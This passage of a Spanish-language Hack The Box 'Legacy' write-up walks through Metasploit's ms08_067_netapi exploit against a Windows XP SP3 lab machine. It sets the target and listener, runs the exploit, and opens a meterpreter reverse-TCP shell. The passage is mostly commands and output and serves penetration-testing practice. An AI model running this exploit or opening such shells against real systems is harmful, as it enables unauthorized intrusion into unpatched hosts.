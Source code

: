 * Usamos el siguiente modulo:
```bash
msf6 > use exploit/windows/smb/ms08_067_netapi
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

* Y le pedimos que nos muestre las opciones:
```bash
msf6 exploit(windows/smb/ms08_067_netapi) > show options
.
Module options (exploit/windows/smb/ms08_067_netapi):
.
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
.
.
Payload options (windows/meterpreter/reverse_tcp):
.
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     Tu_IP        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
.
.
Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```

* Justo ahí indica que usara el **named pipe Browser**, ya solo es cosa de darle el **RHOSTS** y el **LHOST**:
```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.4
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST Tu_IP
LHOST => Tu_IP
```

* Iniciamos el Exploit y listo:
```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit
.
[*] Started reverse TCP handler on Tu_IP:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 10.10.10.4:1040) at 2023-03-27 16:53:43 -0600
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > pwd
C:\WINDOWS\system32
```